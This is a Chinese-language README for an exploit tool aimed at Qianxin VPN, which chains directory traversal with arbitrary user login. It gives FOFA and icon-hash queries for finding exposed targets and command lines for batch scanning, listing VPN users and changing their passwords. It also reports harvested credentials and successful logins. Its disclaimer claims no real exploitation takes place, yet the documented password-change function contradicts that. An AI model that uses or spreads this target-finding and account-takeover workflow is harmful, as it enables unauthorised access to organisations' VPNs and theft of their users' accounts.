

## 奇安信VPN目录遍历+任意用户登录漏
### 免责声明
本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。
为避免被恶意使用，本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。
在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。
如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。
在安装并使用本工具前，请您务必审慎阅读、充分理解各条款内容，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。
### 特点
对 [利刃信安攻防实验室](https://mp.weixin.qq.com/s?__biz=MzU1Mjk3MDY1OA==&mid=2247504434&idx=1&sn=3d4c136cd108906a2cae0b1b6062013b&chksm=fbfb62ffcc8cebe9131cace98f21764ffb32599f033002d779a43ad9bc94b089f3f9a9e07dd2#rd) 师傅分享的工具进行二开：   
```
1.增强漏洞的发现能力
2.增加批量扫描模块
3.输出结果导出为文本，使结果更清晰
  使用域名作为文本名称，如果是批量扫描，每个目标有单独的文本进行展示
```
### 查找
    fofa:
        app="奇安信-VPN"

    其他测绘:
        web.icon="84c7515970de0036f3719afb8c647ed6"
### 脚本利用
#### 运行
使用`python QianxinVPN_Any_login.py --help`查看使用方法
```
Usage: QianxinVPN_Any_login.py [OPTIONS]

Options:
  -t, --target TEXT    Target
  -ts, --targets TEXT  multiple targets(-ts Specify your target file)
  -g, --group INTEGER  User Group
  -u, --user TEXT      Username(default user：anonymous)
  -p, --pwd TEXT       Password(default password：abcdefg#123A)
  -lu, --list-user
  -cp, --change-pwd
  --proxy TEXT
  --help               Show this message and exit.

```
##### 基础用法
```
# 单个目标(-t)检测列出用户(-lu)和修改密码(-cp)
python3 QianxinVPN_Any_login.py -t https://x.xxx.xxx.cn/ -u anonymous -lu -cp

# 批量检测目标(-ts)列出用户(-lu)和修改密码(-cp)    -ts指定你的目标文本
python3 QianxinVPN_Any_login.py -ts targets.txt -u anonymous -lu -cp
```
### 演示
#### 对指定目标进行检测
在cmd中输出简单的检测结果  

  

同时执行的目录下会创建一个目标名称.txt的文档，里面记录者详细的测试数据，例如：用户，密码  

  

像这样  

  

#### 对多个目标进行检测
创建目标文件，写入你的多个目标  

  

执行检测命令，在cmd中对每个目标都会输出简单的检测结果  

  

同样在执行目录下有每个目标的详细检测结果  

  

  


### 让我们来看看成果
  

登录成功  

  

### 致谢
感谢 [利刃信安攻防实验室](https://mp.weixin.qq.com/s?__biz=MzU1Mjk3MDY1OA==&mid=2247504434&idx=1&sn=3d4c136cd108906a2cae0b1b6062013b&chksm=fbfb62ffcc8cebe9131cace98f21764ffb32599f033002d779a43ad9bc94b089f3f9a9e07dd2#rd) 师傅的分享
### 建议和问题
如果您有任何建议和问题，请创建lssues来联系我
